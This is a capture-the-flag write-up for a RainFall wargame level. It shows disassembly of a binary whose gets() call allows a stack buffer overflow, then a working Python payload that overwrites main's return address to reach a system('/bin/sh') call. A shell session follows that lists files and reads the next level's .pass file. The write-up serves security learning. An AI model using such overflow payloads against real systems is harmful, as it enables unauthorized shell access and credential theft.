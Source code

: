 # leve02

In this level, we are greeted with a 32-bit ELF *static* executable binary with symbols not stripped.

Static analysis using `objdump` reveals that there is a strange `run` function :

```text
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00 
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

This function gives us access to the shell. The address `0x8048584` is pointing to a read-only string `/bin/sh`. We somehow needs to execute this function.

The `main` function is just a really simple program :

```
08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
```

First, it aligns the stack on a 16 byte boundary, and allocates `0x50` bytes, probably a buffer. It makes a call to `gets`, which is an especially unsafe C library function that is prone to **buffer overflow**, since it does not do any bounds checking on the buffer.

Given the fact that we have to find a way to execute the `run` function, we could overwrite the return address of the  `main` function to point to the `run ` function using a **buffer overflow**.

In a C program linked with the C Standard Library, `main` is **not** the entry point of an executable. In short, it is called by the C library initialization routine : this is why we overwrite the return address that has been pushed to the stack.

First thing to do is to fill the buffer entirely until we hit a segfault : we will know that we have reach the return address location.

```bash
python -c 'print("a"*76)' | ./level1
```

By trial and error, we start to get `Segmentation Fault` when going over 76 characters (eq. 76 bytes), this means we have touched the return address stored in the stack. Now we have to feed it the entry point of the `run` function, which is `0x08048444`. We are on a **little-endian** architecture, so we need to send the input in **reverse** (*least significant byte first*) :

```bash
python -c 'print("a"*76 + "\x44\x84\x04\x08")' | ./level1
```

We get a message :

```bash
Good... Wait what?
Segmentation Fault
```

Ok. So it seems we intended our goal : reaching the `run` function. But it segfault ! We do not have access to the shell ! The reason is simple : we used a pipe to inject our payload which immediately close the standard input of the `level1` program. When `system` launch `sh`, the standard input is closed and then **exit immediately**.
Since we manually modified the stack, the `ret` instruction is setting `eip` to `0x00000000`, and segfault.

The trick is to left open the standard input by using a second command in the chain : `cat`.

```bash
level1@RainFall:~$ (python -c 'print("a"*76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
cd ../level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
cat .pass
```

Success !